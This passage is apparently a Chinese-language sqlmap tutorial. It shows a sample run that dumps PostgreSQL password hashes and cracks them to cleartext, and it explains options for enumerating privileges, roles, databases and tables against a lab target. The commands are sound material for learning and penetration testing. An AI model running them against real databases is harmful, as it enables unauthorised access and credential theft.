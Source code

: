 ```
$ python sqlmap.py -u "http://********/sqlmap/pgsql/get_int.php?id=1" --passwords -v 1
[...]
back-end DBMS: PostgreSQL
[hh:mm:38] [INFO] fetching database users password hashes
do you want to use dictionary attack on retrieved password hashes? [Y/n/q] y
[hh:mm:42] [INFO] using hash method: 'postgres_passwd'
what's the dictionary's location? [/software/sqlmap/txt/wordlist.txt]
[hh:mm:46] [INFO] loading dictionary from: '/software/sqlmap/txt/wordlist.txt'
do you want to use common password suffixes? (slow!) [y/N] n
[hh:mm:48] [INFO] starting dictionary attack (postgres_passwd)
[hh:mm:49] [INFO] found: 'testpass' for user: 'testuser'
[hh:mm:50] [INFO] found: 'testpass' for user: 'postgres'
database management system users password hashes:
[*] postgres [1]:
password hash: md5d7d880f96044b72d0bba108ace96d1e4
clear-text password: testpass
[*] testuser [1]:
password hash: md599e5ea7a6f7c3269995cba3927fd0093
clear-text password: testpass
```

可以看到sqlmap不仅勒出数据库的用户跟密码，同时也识别出是PostgreSQL数据库，并询问用户是否采用字典爆破的方式进行破解，

这个爆破已经支持`Oracle`和`Microsoft SQL Server`。

也可以提供-U参数来指定爆破哪个用户的`hash`。

**列出数据库管理员权限**

参数：`–privileges`

当前用户有权限读取包含所有用户的表的权限时，很可能列举出每个用户的权限，sqlmap将会告诉你哪个是数据库的超级管理员。

也可以用-U参数指定你想看哪个用户的权限。

**列出数据库管理员角色**

参数：`–roles`

当前用户有权限读取包含所有用户的表的权限时，很可能列举出每个用户的角色，也可以用-U参数指定你想看哪个用户的角色。

仅适用于当前数据库是`Oracle`的时候。

**列出数据库系统的数据库**

参数：`–dbs`

当前用户有权限读取包含所有数据库列表信息的表中的时候，即可列出所有的数据库。

**列举数据库表**

参数：`–tables,–exclude-sysdbs,-D`

当前用户有权限读取包含所有数据库表信息的表中的时候，即可列出一个特定数据的所有表。

```
sqlmap -u "http://192.168.163.138/mutillidae/index.php?page=user-info.php&username=111&password=12123&user-info-php-submit-button=View+Account+Details"
--tables -D dvwa
```
